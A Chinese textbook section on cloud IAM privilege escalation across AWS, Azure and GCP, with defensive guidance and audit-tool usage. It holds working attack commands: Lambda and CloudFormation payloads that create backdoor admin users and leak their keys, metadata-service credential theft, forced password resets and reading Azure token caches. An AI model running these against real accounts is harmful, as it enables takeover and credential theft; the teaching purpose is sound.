



## 12.2.3 IAM策略分析与权限提升

IAM（Identity and Access Management）配置不当是云环境中最普遍、最危险的安全风险之一。根据Datadog《2024年云安全状态报告》，超过60%的云安全事件涉及IAM配置错误或过度授权。根据CrowdStrike《2024全球威胁报告》，云入侵事件中超过80%的攻击者利用了IAM配置缺陷实现权限提升或横向移动。理解IAM策略的评估逻辑、识别权限提升路径、掌握自动化审计方法，是云安全攻防的核心能力。

本节从AWS、Azure、GCP三大云平台的IAM模型出发，系统讲解策略评估机制、20+种权限提升路径、自动化枚举工具、以及企业级防御体系。无论你是红队成员寻找攻击面，还是蓝队工程师加固云环境，这些知识都是必备基础。

### 策略评估逻辑：理解决策引擎

#### AWS IAM策略评估流程

AWS IAM在处理每个API请求时，执行严格的多层评估流程。理解这个流程是发现权限提升漏洞的基础——攻击者要突破的不是单一防线，而是多层策略叠加后的交集。



评估优先级从高到低：

1. **显式Deny（Explicit Deny）**：任何位置的Deny语句都会立即拒绝请求，优先级最高。这是防御者最强大的武器——即使身份策略允许，只要SCP或权限边界中存在Deny，请求就被拒绝。
2. **显式Allow（Explicit Allow）**：至少需要一个Allow语句。Allow必须出现在身份策略、资源策略或ACL中的至少一个里。
3. **权限边界（Permission Boundary）**：Allow必须同时在权限边界内。实际权限 = min(身份策略, 权限边界)。
4. **SCP（Service Control Policy）**：Allow必须同时在SCP允许范围内。SCP限制的是组织内所有账户的最大权限上限。
5. **会话策略（Session Policy）**：临时凭证的额外限制层。通过`sts:AssumeRole`时传入的`--policy`参数。
6. **隐式Deny（Implicit Deny）**：默认拒绝一切未明确允许的操作。这是IAM的默认状态。

**关键洞察**：攻击者寻找的不是"直接获得管理员权限"，而是在多层策略的交叉点中找到可利用的组合。一个看似无害的权限，可能通过策略交互产生严重的权限提升。例如，`iam:PassRole`单独看只是"传递角色"，但配合`lambda:CreateFunction`就能实现完整的权限提升——这种组合漏洞是自动化扫描最容易遗漏的。

#### 策略类型详解

| 策略类型 | 附加对象 | 作用范围 | 攻击关注点 |
|---------|---------|---------|-----------|
| 身份策略（Identity-based） | 用户、组、角色 | 授予主体权限 | 过度授权的策略 |
| 资源策略（Resource-based） | S3、SQS、Lambda等资源 | 授权其他账户/主体访问资源 | 信任关系配置错误 |
| 权限边界（Permission Boundary） | 用户、角色 | 设置策略的上限 | 边界过于宽松 |
| SCP | AWS Organizations账户 | 限制组织内账户权限 | SCP绕过 |
| 会话策略（Session Policy） | 临时凭证 | 叠加限制临时会话权限 | 会话策略过于宽松 |
| VPC端点策略 | VPC端点 | 限制通过端点的服务访问 | 端点策略配置错误 |
| ACL（访问控制列表） | S3桶、对象 | 粗粒度的跨账户访问控制 | 公开读写配置 |
| 组织策略（Organization Policy） | GCP项目/文件夹 | 限制资源使用方式 | 策略继承绕过 |

**身份策略（Identity-based Policy）**：直接附加到IAM用户、组或角色上。这是最常见的策略类型，也是权限提升的主要攻击面。策略可以是AWS托管策略（AWS-managed）、客户托管策略（Customer-managed）或内联策略（Inline）。AWS托管策略通常过于宽泛——例如`PowerUserAccess`包含`iam:CreateServiceLinkedRole`，可以间接创建具有高权限的服务关联角色。内联策略难以审计，因为它们分散在各个身份上，没有集中管理视图。

**资源策略（Resource-based Policy）**：附加在资源本身上，定义"谁可以访问这个资源"。典型场景包括S3 Bucket策略、SQS队列策略、Lambda函数策略、API Gateway策略。资源策略的独特之处在于它可以跨账户授权——这是攻击者横向移动的重要路径。例如，一个S3桶策略允许`Principal: {"AWS": "*"}`意味着任何AWS账户都能访问。资源策略与身份策略的交集决定了最终权限——即使身份策略没有显式允许，资源策略的Allow也能授予访问权。

**权限边界（Permission Boundary）**：不是授予权限，而是定义"这个用户/角色最多能拥有哪些权限"。身份策略的实际权限 = 身份策略 ∩ 权限边界。如果权限边界过于宽松，它就形同虚设。权限边界有一个关键的副作用：如果管理员通过权限边界允许了`iam:*`，但身份策略只允许`s3:GetObject`，那么用户可以修改自己的权限边界来解锁更多权限——这是典型的边界绕过。

**SCP（Service Control Policy）**：AWS Organizations层面的策略，限制组织内所有账户（包括管理账户）的最大权限。SCP不授予权限，只限制权限的上限。常见的配置错误是SCP只限制了部分服务，遗漏了关键的IAM操作。例如，SCP禁止了`iam:CreateUser`但没有禁止`iam:CreateRole`，攻击者可以通过角色实现同样的目标。管理账户不受SCP限制——这是AWS的安全设计，但也意味着管理账户一旦被攻破，SCP无法阻止提权。

**会话策略（Session Policy）**：通过`sts:AssumeRole`或`sts:GetFederationToken`创建临时凭证时附加的额外限制。临时凭证的实际权限 = 角色权限 ∩ 会话策略。如果会话策略为空或过于宽松，角色的完整权限都会暴露。会话策略常被忽略，因为开发者通常不传入`--policy`参数，导致临时凭证获得了角色的全部权限。

**VPC端点策略**：附加在VPC端点上，限制通过该端点可以访问的服务和操作。配置不当的VPC端点策略可能允许通过端点访问未授权的服务，或阻止合法的安全日志上报。攻击者可以利用VPC端点策略的错误配置绕过网络隔离。

### AWS权限提升路径：从低权限到完全控制

#### 权限提升路径全景表

下表汇总了AWS中最主要的权限提升路径，以及每条路径所需的最低权限：

| 路径编号 | 路径名称 | 所需权限（最小集） | 影响范围 | 难度 |
|---------|---------|-------------------|---------|------|
| 1 | PassRole + 资源创建 | iam:PassRole + 服务创建权限 | 完全控制 | 中 |
| 2 | AssumeRole跨账户切换 | sts:AssumeRole | 跨账户访问 | 低 |
| 3 | 策略版本操纵 | iam:CreatePolicyVersion + iam:SetDefaultPolicyVersion | 完全控制 | 低 |
| 4 | 组策略附加 | iam:AttachGroupPolicy | 组内所有用户 | 低 |
| 5 | 用户创建与密钥获取 | iam:CreateUser + iam:AttachUserPolicy + iam:CreateAccessKey | 新用户完全控制 | 低 |
| 6 | 内联策略注入 | iam:PutUserPolicy / iam:PutRolePolicy / iam:PutGroupPolicy | 目标身份 | 低 |
| 7 | SAML/OIDC联邦 | iam:CreateSAMLProvider / iam:CreateOpenIDConnectProvider | 身份伪造 | 高 |
| 8 | IMDS凭证窃取 | EC2实例访问（SSRF等） | 实例角色 | 中 |
| 9 | 服务角色滥用 | iam:PassRole + 服务触发权限 | 服务角色 | 中 |
| 10 | 权限边界绕过 | iam:PutUserPermissionsBoundary | 目标用户 | 中 |
| 11 | 策略版本切换 | iam:SetDefaultPolicyVersion | 策略所有者 | 低 |
| 12 | 自定义策略创建 | iam:CreatePolicy + iam:AttachUserPolicy | 目标用户 | 低 |
| 13 | 角色创建与切换 | iam:CreateRole + iam:AttachRolePolicy | 新角色 | 低 |
| 14 | S3触发代码执行 | s3:PutObject + 已有S3触发器 | Lambda/Glue角色 | 高 |
| 15 | Lambda代码覆盖 | lambda:UpdateFunctionCode | Lambda执行角色 | 中 |
| 16 | Glue Dev端点 | glue:CreateDevEndpoint | Glue角色 | 中 |
| 17 | CloudFormation栈 | cloudformation:CreateStack + iam:PassRole | CFN角色 | 中 |
| 18 | CodePipeline篡改 | codepipeline:UpdatePipeline | Pipeline角色 | 中 |
| 19 | EventBridge规则 | events:PutRule + events:PutTargets | 触发任意服务 | 中 |
| 20 | DMS任务创建 | dms:CreateReplicationInstance + iam:PassRole | DMS角色 | 中 |

#### 路径一：iam:PassRole + 资源创建

这是AWS中最经典、最危险的权限提升路径。`iam:PassRole`允许将IAM角色传递给AWS服务，当攻击者同时拥有创建服务资源的权限时，可以将高权限角色附加到自己控制的资源上。

```bash
# 场景：攻击者拥有 iam:PassRole + lambda:CreateFunction
# 目标：获取 administrator-role 的权限

# 步骤1：发现可传递的高权限角色
aws iam list-roles --query 'Roles[?contains(RoleName,`admin`)].[RoleName,Arn]'

# 步骤2：创建Lambda函数并附加高权限角色
aws lambda create-function \
  --function-name privilege-escalation \
  --runtime python3.12 \
  --role arn:aws:iam::123456789012:role/administrator-role \
  --handler lambda_function.lambda_handler \
  --zip-file fileb://payload.zip

# 步骤3：触发函数执行（获取管理员权限）
aws lambda invoke --function-name privilege-escalation output.json
```

Lambda函数代码（payload.zip中的lambda_function.py）：

```python
import boto3
import json

def lambda_handler(event, context):
    # 此时Lambda以administrator-role身份执行
    iam = boto3.client('iam')
    
    # 创建管理员用户
    iam.create_user(UserName='backdoor-admin')
    iam.attach_user_policy(
        UserName='backdoor-admin',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    
    # 创建访问密钥
    keys = iam.create_access_key(UserName='backdoor-admin')
    
    return {
        'statusCode': 200,
        'body': json.dumps({
            'AccessKeyId': keys['AccessKey']['AccessKeyId'],
            'SecretAccessKey': keys['AccessKey']['SecretAccessKey']
        })
    }
```

**可组合的服务**：不仅是Lambda，任何支持`iam:PassRole`的AWS服务都可以利用：

| 服务 | 所需权限 | 利用方式 |
|-----|---------|---------|
| Lambda | lambda:CreateFunction | 函数执行时继承角色 |
| EC2 | ec2:RunInstances | 实例元数据获取临时凭证 |
| ECS | ecs:RunTask | 容器任务执行时继承角色 |
| Glue | glue:CreateJob | ETL作业执行时继承角色 |
| CloudFormation | cloudformation:CreateStack | 栈创建资源时继承角色 |
| CodeBuild | codebuild:CreateProject | 构建时继承角色 |
| SageMaker | sagemaker:CreateNotebook | Notebook执行时继承角色 |
| DataPipeline | datapipeline:CreatePipeline | 管道执行时继承角色 |
| Step Functions | states:CreateStateMachine | 状态机执行时继承角色 |
| DMS | dms:CreateReplicationInstance | 复制实例继承角色 |
| EMR | elasticmapreduce:RunJobFlow | 集群节点继承角色 |
| AppRunner | apprunner:CreateService | 服务实例继承角色 |

**`iam:PassRole`的限制**：AWS允许通过`iam:PassedToService`条件键限制角色只能传递给特定服务。防御者应始终使用此条件键：

```json
{
  "Condition": {
    "StringEquals": {
      "iam:PassedToService": "lambda.amazonaws.com"
    }
  }
}
```

#### 路径二：sts:AssumeRole 跨账户/跨角色切换

如果攻击者可以调用`sts:AssumeRole`，可以切换到信任关系配置不当的高权限角色。

```bash
# 步骤1：枚举可Assume的角色
aws iam list-roles --query 'Roles[?AssumeRolePolicyDocument.Statement[0].Principal.AWS!=`null`].[RoleName,Arn,AssumeRolePolicyDocument]'

# 步骤2：检查信任关系是否允许当前身份
aws iam get-role --role-name target-role --query 'Role.AssumeRolePolicyDocument'

# 步骤3：假设角色
aws sts assume-role \
  --role-arn arn:aws:iam::TARGET_ACCOUNT:role/target-role \
  --role-session-name compromised-session

# 步骤4：使用临时凭证
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
```

**信任关系中的常见错误**：

```json
// 危险：允许任何AWS账户假设此角色
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "*"},
    "Action": "sts:AssumeRole"
  }]
}

// 危险：允许任何经过AWS认证的实体
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "arn:aws:iam::*:root"},
    "Action": "sts:AssumeRole"
  }]
}

// 更安全的做法：使用ExternalId防止"confused deputy"攻击
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "arn:aws:iam::TRUSTED_ACCOUNT:root"},
    "Action": "sts:AssumeRole",
    "Condition": {
      "StringEquals": {
        "sts:ExternalId": "unique-secret-external-id"
      }
    }
  }]
}
```

**ExternalId的真正用途**：ExternalId不是认证机制，而是防止"confused deputy"攻击。当第三方服务需要访问你的AWS资源时，ExternalId确保只有知道这个ID的第三方才能假设角色。但如果攻击者已经获取了你的AWS凭证，ExternalId也无法阻止提权。

#### 路径三：策略版本操纵

IAM策略最多支持5个版本。如果攻击者拥有`iam:CreatePolicyVersion`权限，可以创建管理员策略版本并设为默认。或者如果拥有`iam:SetDefaultPolicyVersion`权限，可以切换到一个已有但未激活的高权限版本。

```bash
# 步骤1：获取当前策略的ARN
aws iam list-policies --scope Local --query 'Policies[].[PolicyName,Arn]'

# 步骤2：创建新版本（管理员权限）
aws iam create-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/target-policy \
  --policy-document '{
    "Version": "2012-10-17",
    "Statement": [{
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }]
  }' \
  --set-as-default

# 步骤3：验证新版本已生效
aws iam get-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/target-policy \
  --version-id v2
```

**注意**：如果策略已有5个版本，需要先删除一个非默认版本：

```bash
# 列出所有版本
aws iam list-policy-versions --policy-arn <ARN>

# 删除非默认版本
aws iam delete-policy-version --policy-arn <ARN> --version-id v1
```

**隐藏技巧**：`iam:SetDefaultPolicyVersion`单独就能提权——如果策略有5个版本，其中某个版本的权限比当前默认版本更高，攻击者只需切换默认版本即可。这种攻击不需要创建新版本，也不会触发CloudTrail中的`CreatePolicyVersion`事件，更难被检测到。

#### 路径四：组策略附加

`iam:AttachGroupPolicy`允许将策略附加到用户组。如果攻击者所在的组被附加了管理员策略，攻击者立即获得管理员权限。

```bash
# 将管理员策略附加到攻击者所在的组
aws iam attach-group-policy \
  --group-name developers \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

# 验证生效
aws iam list-attached-group-policies --group-name developers
```

**变体**：`iam:AddUserToGroup`权限允许将自己添加到任何组。如果某个组有管理员权限，攻击者直接加入该组即可提权。

```bash
# 将自己添加到管理员组
aws iam add-user-to-group \
  --user-name attacker \
  --group-name admins
```

#### 路径五：IAM用户创建与密钥获取

如果攻击者拥有`iam:CreateUser`和`iam:CreateAccessKey`权限，可以直接创建管理员用户。或者如果拥有`iam:CreateLoginProfile`权限，可以为现有用户创建控制台登录密码。

```bash
# 方式A：创建新用户
aws iam create-user --user-name backdoor-user
aws iam attach-user-policy \
  --user-name backdoor-user \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam create-access-key --user-name backdoor-user

# 方式B：为现有用户创建控制台密码（不需要知道原密码）
aws iam create-login-profile \
  --user-name existing-user \
  --password "Newyour_password!" \
  --no-password-reset-required
```

#### 路径六：内联策略注入

`iam:PutUserPolicy`、`iam:PutRolePolicy`、`iam:PutGroupPolicy`可以向现有用户/角色/组注入内联策略。内联策略比托管策略更隐蔽，因为它们不会出现在托管策略列表中，审计时容易被忽略。

```bash
# 向当前用户注入管理员内联策略
aws iam put-user-policy \
  --user-name current-user \
  --policy-name escalation-policy \
  --policy-document '{
    "Version": "2012-10-17",
    "Statement": [{
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }]
  }'

# 向当前角色注入管理员内联策略
aws iam put-role-policy \
  --role-name current-role \
  --policy-name escalation-policy \
  --policy-document '{
    "Version": "2012-10-17",
    "Statement": [{
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }]
  }'
```

#### 路径七：SAML/OIDC身份联邦

如果攻击者拥有`iam:CreateSAMLProvider`或`iam:CreateOpenIDConnectProvider`权限，可以创建身份提供商并伪造身份。这是最高级的攻击路径，需要理解SAML/OIDC协议，但一旦成功，可以获得持久的、看起来合法的身份。

```bash
# 创建SAML提供商（需要预先准备元数据XML）
aws iam create-saml-provider \
  --saml-metadata-document file://malicious-metadata.xml \
  --name attacker-provider

# 使用SAML断言假设角色
aws sts assume-role-with-saml \
  --role-arn arn:aws:iam::123456789012:role/admin-role \
  --principal-arn arn:aws:iam::123456789012:saml-provider/attacker-provider \
  --saml-assertion <base64-encoded-assertion>
```

**OIDC变体**：如果拥有`iam:CreateOpenIDConnectProvider`权限，可以创建OIDC提供商并使用自签的JWT令牌：

```bash
# 创建OIDC提供商（指向攻击者控制的服务器）
aws iam create-open-id-connect-provider \
  --url https://attacker-controlled.com/.well-known/openid-configuration \
  --client-id-list sts.amazonaws.com \
  --thumbprint-list <attacker-server-cert-thumbprint>

# 使用自签JWT假设角色（需要目标角色信任此OIDC提供商）
```

#### 路径八：EC2实例元数据服务（IMDS）

通过SSRF或其他漏洞访问EC2实例元数据服务，获取实例角色的临时凭证。这是从Web应用漏洞到云权限提升的经典路径。

```bash
# IMDSv1（无认证保护）
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 获取角色名称
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name

# 返回的JSON包含 AccessKeyId, SecretAccessKey, Token
```

**IMDSv2防护**：需要先获取token，再用token请求元数据，增加了利用难度但并非不可能：

```bash
# IMDSv2：先获取token
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

# 使用token请求元数据
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

**IMDSv2的绕过**：IMDSv2通过要求PUT请求获取token来防御SSRF，但以下场景仍然可以被利用：

- **服务端请求伪造（SSRF）允许PUT方法**：某些SSRF漏洞可以发送PUT请求，直接获取token
- **DNS重绑定攻击**：通过DNS重绑定，在域名验证通过后将请求指向169.254.169.254
- **容器逃逸**：如果容器以`--net=host`模式运行，可以直接访问宿主机的元数据服务
- **反向代理配置错误**：某些反向代理会转发所有请求，包括到元数据服务的请求

**防御建议**：除了强制IMDSv2，还应通过`HttpTokens=required`和`HttpPutResponseHopLimit=1`限制token的传递路径，确保只有直接连接到元数据服务的进程才能获取token。

#### 路径九：Glue/CodeBuild等服务角色滥用

许多AWS服务在执行时会使用关联的服务角色。如果攻击者可以创建或触发这些服务的任务，就能获得服务角色的权限。

```bash
# Glue Job（ETL服务角色）
aws glue create-job \
  --name escalation-job \
  --role arn:aws:iam::123456789012:role/glue-admin-role \
  --command '{"Name":"pythonshell","ScriptLocation":"s3://bucket/script.py"}' \
  --allocated-capacity 1

aws glue start-job-run --job-name escalation-job

# CodeBuild（构建服务角色）
aws codebuild create-project \
  --name escalation-build \
  --service-role arn:aws:iam::123456789012:role/codebuild-admin-role \
  --source '{"type":"S3","location":"bucket/buildspec.yml"}' \
  --artifacts '{"type":"NO_ARTIFACTS"}' \
  --environment '{"type":"LINUX_CONTAINER","computeType":"BUILD_GENERAL1_SMALL","image":"aws/codebuild/standard:7.0"}'

aws codebuild start-build --project-name escalation-build

# SageMaker Notebook（ML服务角色）
aws sagemaker create-notebook-instance \
  --notebook-instance-name escalation-notebook \
  --instance-type ml.t3.medium \
  --role-arn arn:aws:iam::123456789012:role/sagemaker-admin-role
```

**EC2元数据窃取的进阶利用**：如果攻击者已经获得了EC2实例的访问权限（例如通过RCE漏洞），除了直接使用元数据凭证，还可以：

```bash
# 通过SSRF获取凭证后，检查角色的完整权限
aws sts get-caller-identity

# 查看角色附加的所有策略
aws iam list-attached-role-policies --role-name <role-name>

# 如果角色有iam:PassRole权限，可以进一步提权
```

#### 路径十：权限边界绕过

权限边界旨在限制最大权限，但配置不当会导致绕过。

```bash
# 场景：权限边界允许iam:*但不允许s3:*
# 如果身份策略同时允许iam:*和s3:*
# 实际权限 = {iam:*} ∩ 权限边界{iam:*} = {iam:*}

# 绕过方式：利用iam:*权限修改权限边界
aws iam put-user-permissions-boundary \
  --user-name target-user \
  --permissions-boundary arn:aws:iam::aws:policy/AdministratorAccess

# 然后删除权限边界
aws iam delete-user-permissions-boundary --user-name target-user
```

**权限边界的其他绕过方式**：

1. **修改权限边界本身**：如果有`iam:CreatePolicyVersion`权限，可以修改权限边界策略的版本
2. **删除权限边界**：如果有`iam:DeleteUserPermissionsBoundary`权限，直接删除边界
3. **创建新用户**：如果有`iam:CreateUser`权限，创建不受边界限制的新用户
4. **假设其他角色**：如果边界允许`sts:AssumeRole`，切换到不受边界限制的角色

#### 路径十一：S3触发代码执行

如果攻击者拥有`s3:PutObject`权限，且目标环境中存在S3桶触发器（触发Lambda或Glue），攻击者可以上传恶意代码到S3桶，触发器会自动执行这些代码。

```bash
# 步骤1：发现S3桶触发器
aws s3api get-bucket-notification-configuration --bucket target-bucket

# 步骤2：如果触发器指向Lambda，上传恶意代码
aws s3 cp malicious.py s3://target-bucket/trigger-prefix/

# Lambda会自动触发执行，继承Lambda执行角色的权限
```

#### 路径十二：Lambda函数代码覆盖

如果攻击者拥有`lambda:UpdateFunctionCode`权限（但没有`lambda:CreateFunction`权限），可以覆盖现有Lambda函数的代码。

```bash
# 更新现有Lambda函数的代码
aws lambda update-function-code \
  --function-name existing-function \
  --zip-file fileb://malicious-payload.zip

# 触发执行
aws lambda invoke --function-name existing-function output.json
```

#### 路径十三：CloudFormation栈权限提升

CloudFormation是一个强大的提权工具，因为它可以在栈创建过程中创建任何资源，并使用栈创建者的权限。

```bash
# 创建包含管理员用户和策略的CloudFormation栈
aws cloudformation create-stack \
  --stack-name escalation-stack \
  --role-arn arn:aws:iam::123456789012:role/cfn-admin-role \
  --template-body '{
    "AWSTemplateFormatVersion": "2010-09-09",
    "Resources": {
      "BackdoorUser": {
        "Type": "AWS::IAM::User",
        "Properties": {
          "UserName": "cfn-backdoor-user",
          "ManagedPolicyArns": ["arn:aws:iam::aws:policy/AdministratorAccess"]
        }
      },
      "BackdoorKey": {
        "Type": "AWS::IAM::AccessKey",
        "Properties": {
          "UserName": {"Ref": "BackdoorUser"}
        }
      }
    },
    "Outputs": {
      "AccessKeyId": {"Value": {"Ref": "BackdoorKey"}},
      "SecretAccessKey": {"Value": {"Fn::GetAtt": ["BackdoorKey", "SecretAccessKey"]}}
    }
  }'

# 查看输出获取凭证
aws cloudformation describe-stacks --stack-name escalation-stack \
  --query 'Stacks[0].Outputs'
```

### Azure AD/Entra ID权限提升

Azure的权限模型与AWS不同，但同样存在多种提升路径。Azure使用三层权限模型：Azure AD（身份层）、订阅（资源层）、管理组（治理层），每层都有独立的权限体系。

#### 角色与权限

Azure使用基于角色的访问控制（RBAC），关键的高权限角色包括：

| 角色 | 权限级别 | 风险描述 |
|-----|---------|---------|
| Global Administrator | 最高 | 完全控制Azure AD和所有订阅 |
| User Administrator | 高 | 可创建/修改用户，重置密码 |
| Application Administrator | 高 | 可创建应用注册，获取客户端密钥 |
| Privileged Role Administrator | 高 | 可分配任何角色 |
| Contributor | 订阅级 | 可创建/修改所有资源（不含RBAC） |
| Owner | 订阅级 | 完全控制包括RBAC |
| Virtual Machine Contributor | 中 | 可创建/管理VM，可获取VM上的Managed Identity令牌 |
| Key Vault Administrator | 高 | 可访问和管理Key Vault中的密钥/证书/密文 |

#### 常见提升路径

```bash
# 使用Azure CLI进行枚举

# 1. 枚举当前用户的角色
az role assignment list --assignee $(az ad signed-in-user show --query id -o tsv) --output table

# 2. 枚举应用注册（Application Administrator权限）
az ad app list --output table

# 3. 为应用注册添加客户端密钥（获取持久访问）
az ad app credential reset --id <app-id>

# 4. 使用服务主体访问订阅
az login --service-principal -u <app-id> -p <secret> --tenant <tenant-id>

# 5. 重置用户密码（User Administrator权限）
az ad user update --id target@company.com --force-change-password-next-login --password "Newyour_password!"

# 6. 枚举所有Azure AD用户（User Administrator权限）
az ad user list --output table

# 7. 查看应用注册的权限
az ad app permission list --id <app-id>
```

**Azure特有的攻击路径**：

- **应用注册密钥泄露**：Application Administrator可以为任何应用注册创建客户端密钥，从而获取该应用的服务主体权限。客户端密钥没有默认过期时间，一旦创建永久有效。
- **Managed Identity滥用**：VM上的Managed Identity可以通过IMDS获取令牌，如果VM被入侵，攻击者获得该身份的权限。Azure VM的IMDS endpoint为`http://169.254.169.254/metadata/identity/oauth2/token`。
- **条件访问策略绕过**：条件访问策略配置不当可能导致MFA绕过或设备合规性检查绕过。例如，如果策略只对特定应用生效，攻击者可以使用不受保护的应用作为跳板。
- **PIM（Privileged Identity Management）滥用**：如果攻击者是Privileged Role Administrator，可以将自己添加为Global Administrator的eligible成员，然后激活角色。
- **Azure CLI命令历史**：Azure CLI会在`~/.azure/`目录下存储命令历史和缓存的token，攻击者可以从这些文件中提取凭证。

```bash
# Azure CLI凭证窃取
cat ~/.azure/accessTokens.json
cat ~/.azure/azureProfile.json
cat ~/.azure/msal_token_cache.json
```

#### Azure AD提权的自动化检测

```bash
# 使用AzureHound枚举Azure AD关系图谱
# 安装：从BloodHound发行版获取

# 使用ROADtools枚举Azure AD
pip install roadtools
roadrecon auth -u user@company.com -p password
roadrecon gather
roadrecon gui  # 启动Web界面查看关系图
```

### GCP IAM权限提升

GCP使用资源层次结构（Organization → Folder → Project → Resource），权限通过IAM策略绑定在每个层级。GCP的IAM模型与AWS有显著差异：GCP使用"角色"而非"策略"，权限通过IAM Policy绑定而非策略文档。

#### GCP角色体系

| 角色类型 | 示例 | 权限范围 |
|---------|------|---------|
| 基本角色 | Owner, Editor, Viewer | 全服务范围，过于宽泛 |
| 预定义角色 | roles/iam.admin | 特定服务的预定义权限集 |
| 自定义角色 | 项目/组织级自定义 | 精确控制的最小权限 |

#### 常见提升路径

```bash
# 使用gcloud CLI

# 1. 枚举当前权限
gcloud projects get-iam-policy <project-id>

# 2. 获取Service Account密钥（需要iam.serviceAccountKeys.create）
gcloud iam service-accounts keys create key.json \
  --iam-account=<sa-email>

# 3. 模拟Service Account（需要iam.serviceAccounts.actAs）
gcloud compute instances create compromised-instance \
  --service-account=<high-priv-sa>@<project>.iam.gserviceaccount.com \
  --scopes=cloud-platform

# 4. 修改IAM策略绑定（需要resourcemanager.projects.setIamPolicy）
gcloud projects add-iam-policy-binding <project-id> \
  --member="user:attacker@company.com" \
  --role="roles/owner"

# 5. 部署Cloud Function（需要cloudfunctions.functions.create）
gcloud functions deploy escalation-function \
  --runtime python312 \
  --trigger-http \
  --service-account=<high-priv-sa>@<project>.iam.gserviceaccount.com \
  --allow-unauthenticated
```

**GCP特有的攻击路径**：

- **Service Account密钥导出**：拥有`iam.serviceAccountKeys.create`权限可以直接导出SA密钥。SA密钥是长期有效的JSON凭证文件，一旦泄露相当于完全控制该SA。
- **默认Service Account滥用**：Compute Engine默认SA拥有项目编辑者角色，且默认授予`cloud-platform`范围。大多数开发者在创建实例时使用默认SA，这使得任何能访问该实例的攻击者都能获得项目编辑者权限。
- **组织策略绕过**：Organization Policy限制可以通过Folder层级的策略覆盖。如果组织策略禁止在项目A创建外部IP的实例，但Folder层没有这个限制，攻击者可以在Folder层覆盖策略。
- **Cloud Functions代码注入**：如果攻击者有`cloudfunctions.functions.update`权限，可以更新现有Cloud Function的代码，使其在下一次触发时执行恶意代码。
- **BigQuery数据导出**：如果攻击者有`bigquery.datasets.create`权限，可以创建一个新数据集，然后将敏感数据复制到这个数据集中，再设置为公开访问。

```bash
# GCP权限枚举自动化
# 使用enumerate-iam (Google Cloud版)
# 使用ScoutSuite GCP模式
scout gcp --user-account --project-id <project-id>

# 使用Prowler GCP扫描
prowler gcp --project-id <project-id>
```

### 多云环境下的IAM横向移动

在多云环境中，攻击者可以从一个云平台横向移动到另一个。常见的多云攻击场景包括：

1. **共享凭证泄露**：开发者的SSH密钥或API Token在多个云平台中复用
2. **CI/CD管道跳板**：CI/CD管道连接多个云平台，攻击一个平台可以影响其他平台
3. **SaaS应用集成**：Slack、Okta、Azure AD等SaaS应用的集成凭证可能暴露多个云平台的访问权限
4. **VPN/网络互通**：多云之间的网络互通可能被利用进行横向移动



**防御建议**：多云环境需要统一的身份治理平台，集中管理所有云平台的IAM配置。使用Azure Arc、AWS Control Tower、Google Cloud Anthos等工具实现跨云策略统一。

### 多云环境下的IAM枚举自动化

#### 工具一：Prowler

Prowler是最全面的云安全审计工具，支持AWS、Azure、GCP。内置超过300个安全检查规则，覆盖CIS基准、AWS Well-Architected Framework、NIST 800-53等合规框架。

```bash
# 安装
pip install prowler

# AWS全量扫描
prowler aws --checks-directory iam

# 仅检查IAM相关
prowler aws --checks awslambda_function_policy_provided \
  awslambda_function_no_administrative_privileges \
  iam_policy_no_administrative_privileges \
  iam_user_no_administrative_privileges

# Azure扫描
prowler azure --checks aad

# GCP扫描
prowler gcp --checks iam

# 输出格式：CSV、JSON、HTML
prowler aws --output-format csv --output-directory ./reports
```

#### 工具二：CloudMapper

CloudMapper专注于AWS环境的可视化和审计。它能生成网络拓扑图、分析IAM权限、检测安全问题。

```bash
# 安装
git clone https://github.com/duo-labs/cloudmapper.git
cd cloudmapper
pip install -r requirements.txt

# 枚举环境
python cloudmapper.py collect --account myaccount

# 生成网络拓扑图
python cloudmapper.py prepare --account myaccount
python cloudmapper.py webserver

# 审计IAM权限
python cloudmapper.py audit
```

#### 工具三：ScoutSuite

多云安全审计工具，生成HTML报告。支持AWS、Azure、GCP、Alibaba Cloud、Oracle Cloud。

```bash
# 安装
pip install scoutsuite

# AWS扫描
scout aws

# Azure扫描
scout azure --user-account-browser

# GCP扫描
scout gcp --user-account

# 报告生成后在scoutsuite-results/目录中查看HTML文件
```

